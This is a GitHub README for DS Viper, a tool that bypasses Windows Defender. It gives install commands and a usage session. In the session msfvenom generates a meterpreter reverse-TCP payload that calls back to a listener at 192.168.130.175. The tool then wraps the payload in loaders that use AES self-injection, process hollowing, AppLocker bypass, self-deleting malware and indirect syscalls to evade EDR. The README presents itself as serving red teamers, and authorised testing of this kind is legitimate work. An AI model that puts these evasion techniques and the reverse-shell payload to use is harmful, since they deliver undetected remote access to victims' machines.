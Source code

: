 # 🐍 **About DS Viper**

**DS Viper** is a powerful tool designed to **bypass Windows Defender's security mechanisms**, enabling seamless execution of payloads on Windows systems without triggering security alerts. It utilizes a combination of **advanced techniques** to manipulate and disguise payloads, providing cybersecurity professionals, red teamers, and penetration testers with a **robust solution** for achieving undetected access.

Whether you're simulating real-world attacks or conducting comprehensive security audits, **DS Viper** serves as an essential tool for testing and improving system defenses.

> **We are constantly working on DS Viper** to enhance its capabilities, improve evasion techniques, and introduce customizable features such as the ability to add your own payloads or keywords.

---

<p align="center">
  <img src="https://github.com/dagowda/DSViper/blob/c24161c9c055bd94be03624cf8d1c8d9849df59c/img/screenshot1.jpg" alt="image_alt">
</p>

# ✔️ **Installation**

Clone the repository and set up the environment.

### **Option 1: Manual Installation**
```bash
git clone https://github.com/dagowda/DSViper.git
cd DSViper
pip install -r requirements.txt
sudo apt-get update
sudo apt-get install -y mingw-w64
sudo apt install mono-complete
mkdir masm
wget -O masm/uasm_linux64.zip https://www.terraspace.co.uk/uasm257_linux64.zip
unzip masm/uasm_linux64.zip -d masm
chmod +x masm/uasm*
sudo cp masm/uasm /usr/bin/uasm
```

### **Option 2: Scripted Installation (Recommended)**
If you prefer an automated setup, use the provided script:

```bash
chmod +x install_dependencies.sh
./install_dependencies.sh
```

---

# ⚙️ **Usage**

Make the `DSViper` binary executable and run it OR just run the python script using python3:

```bash
➜  DSViper git:(main) ✗ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.130.175 LPORT=443 -f raw > payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201798 bytes
➜  DSViper git:(main) ✗ python3 DSViper.py

            
                                                                                                                                                                     
░▒▓███████▓▒░ ░▒▓███████▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓███████▓▒░░▒▓████████▓▒░▒▓███████▓▒░                                                                          
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░             ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░              ░▒▓█▓▒▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓█▓▒░░▒▓█▓▒░░▒▓██████▓▒░        ░▒▓█▓▒▒▓█▓▒░░▒▓█▓▒░▒▓███████▓▒░░▒▓██████▓▒░ ░▒▓███████▓▒░                                                                          
░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░        ░▒▓█▓▓█▓▒░ ░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░        ░▒▓█▓▓█▓▒░ ░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓███████▓▒░░▒▓███████▓▒░          ░▒▓██▓▒░  ░▒▓█▓▒░▒▓█▓▒░      ░▒▓████████▓▒░▒▓█▓▒░░▒▓█▓▒░                                                                         
                                                                                                                                                                     
................................................                                                                                                                     
                      AntiVirus Bypass Tool (v.0.2.1)                                                                                                                
---------------------------------------------------------                                                                                                            
Created by Dhanush Gowda(dagowda) and Sumanth Vankineni                                                                                                                  
---------------------------------------------------------                                                                                                            
................................................                                                                                                                     
                                                                                                                                                                     
                                                                                                                                                                     
You sure you want to Continue?(Use it ethically, and in lab enviroments only) y/n: y                                                                                 
Enter your payload choice:                                                                                                                                           
1.)self-injection(XOR)                                                                                                                                               
2.)self-injection(AES)                                                                                                                                               
3.)Process Injection(spoolsv)(Can be used for lateral movement)                                                                                                      
4.)Process Hollow                                                                                                                                                    
5.)Self Deleting Malware(HAVE TO WAIT, CLOSE TO A MINUTE FOR THE PAYLOAD TO EXECUTE)                                                                                 
6.)DLL side-load/rundll32 applocker bypass                                                                                                                           
7.)Process Injection(explorer.exe)                                                                                                                                   
8.)Powershell(Will bypass with cloud detections enabled as well)(Make sure to run this payload twice)(use x64 payload only)                                          
9.)Applocker bypass small shellcodes(Make sure to use x86 payloads)(Also make sure to change the .exe file name after everyrun on the same victim)(Make sure you run this payload twice)                                                                                                                                                  
10.)Applocker bypass Havoc/large shellcodes(use x86 payloads only)                                                                                                   
11.)Indirect Syscall(Windows 10)(Possible EDR bypass loader)                                                                                                         
>2                                                                                                                                                                   
Please type in the shellcode file name: payload.bin                                                                                                                  
Selected self-injection(AES)                                                                                                                                         
[*]Payload successfully created as DSViper_AES.exe
```

---

## 📄 **Notes**
- Ensure you have **Python 3.8+** installed.
- Run the commands in a terminal with the required permissions.


![image_alt](https://github.com/dagowda/DSViper/blob/c9bc60a60bc73fb523a935b8d188fbec5b1521fa/img/screenshot2.png) 
  
